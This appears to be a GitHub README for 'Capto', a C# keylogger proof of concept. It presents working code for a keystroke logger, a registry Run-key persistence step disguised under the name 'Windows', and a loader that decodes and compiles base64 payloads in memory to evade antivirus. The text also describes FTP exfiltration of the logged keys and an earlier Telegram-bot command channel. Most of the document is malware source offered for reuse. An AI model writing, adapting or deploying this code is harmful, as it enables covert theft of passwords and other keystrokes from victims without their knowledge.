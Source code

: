# Capto
Capto is a basic POC of a keylogger written in C#. It compiles it payloads at runtime in-memory to avoid antivirus detection. It does this by using encoding and reflection. I initially developed this to show people what havoc a simple program could cause with a low privileged account whilst staying undetected by defense mechanisms. Somewhere along the way I lost the project and I always felt kinda sad about it. I've now rewritten the program but just with the basics. The original version also included a payload where someone could use the Telegram API Bot as C2C (sending screenshots and basic commands to do some enumeration and data exfiltration). 

# Process
Upon executing it'll decode the base64 encoded payloads, compile them at runtime where it will then copy itself to a writable folder, add a registry entry for persistence and finally start the keylogger to log the keys that are entered. These are written to a update.log file and will be extracted using ftp.

# Payloads
It currently holds two basic payloads, one for adding a registry entry and the other is the actual keylogger. You can use the included WPF application: ```base64-encoder-decoder``` (or any other encoder) to add your own payloads.

> Note: The compiler expects the namespace and main class to be called ```Program```. It'll then try to invoke ```Main```.

Keylogger:
```cs
using System;
using System.IO;
using System.Runtime.InteropServices;

namespace Program
{    public class Program
    {
        [DllImport("user32.dll")]
        public static extern int GetAsyncKeyState(Int32 i);

        public static void Main(string arg)
        {
            string path = string.Format(@"{0}\{1}\{2}", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Windows", "update.log");

            while (true)
            {
                for (int i = 0; i < 255; i++)
                {
                    int key = GetAsyncKeyState(i);
                    if (key == 1 || key == 32769)
                    {
                        StreamWriter file = new StreamWriter(path, true);
                        file.Write((char)i);
                        file.Close();
                        break;
                    }
                }
            }
        }
    }
}
```

Registry entry:
```cs
using Microsoft.Win32;
using System;

namespace Program
{
    public class Program
    {
        public static void Main(string arg)
        {
            RegistryKey key = Registry.CurrentUser.CreateSubKey(@"SOFTWARE\Microsoft\Windows\CurrentVersion\Run");
            key.SetValue("Windows", string.Format(@"{0}\{1}\{2}", Environment.GetFolderPath(Environment.SpecialFolder.ApplicationData), "Windows", "update.exe"));
            key.Close();
        }
    }
}
```
> Note: We use the local user path in the registry. That way we don't have to be local administrator to create the entry. Downside is that it'll only run as the current logged in user.
> Path: ```Computer\HKEY_CURRENT_USER\SOFTWARE\Microsoft\Windows\CurrentVersion\Run```

# Reflection
This is the part that compiles and runs the payloads. Don't forget to add the necessary libraries for your payload as reference:
```cs
static void CompileAndRun(string payload)
        {
            CompilerParameters CompilerParams = new CompilerParameters
            {
                GenerateInMemory = true,
                TreatWarningsAsErrors = false,
                GenerateExecutable = false,
                CompilerOptions = "/optimize"
            };

            string[] references = { "System.dll", "mscorlib.dll" };
            CompilerParams.ReferencedAssemblies.AddRange(references);

            CSharpCodeProvider provider = new CSharpCodeProvider();
            CompilerResults compile = provider.CompileAssemblyFromSource(CompilerParams, payload);

            Module module = compile.CompiledAssembly.GetModules()[0];
            Type mt = null;
            MethodInfo methInfo = null;

            if (module != null)
                mt = module.GetType("Program.Program");
            if (mt != null)
                methInfo = mt.GetMethod("Main");
            if (methInfo != null)
                methInfo.Invoke(null, new object[] { "arg" });
        }
```
